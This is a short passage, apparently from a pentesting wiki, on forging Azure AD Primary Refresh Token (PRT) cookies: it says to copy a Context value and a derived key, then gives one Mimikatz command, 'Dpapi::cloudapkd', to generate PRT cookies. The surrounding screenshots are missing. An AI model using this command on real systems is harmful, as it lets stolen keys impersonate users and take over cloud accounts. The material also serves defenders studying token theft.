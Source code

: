 <figure><img src="../../../images/image (183).png" alt=""><figcaption></figcaption></figure>

#### Option 1 - Full Mimikatz

- Now you want to copy both the Context value:

<figure><img src="../../../images/image (210).png" alt=""><figcaption></figcaption></figure>

- And the derived key value:

<figure><img src="../../../images/image (150).png" alt=""><figcaption></figcaption></figure>

- Finally you can use all this info to **generate PRT cookies**:

```bash
Dpapi::cloudapkd /context:[CONTEXT] /derivedkey:[DerivedKey] /Prt:[PRT]
```
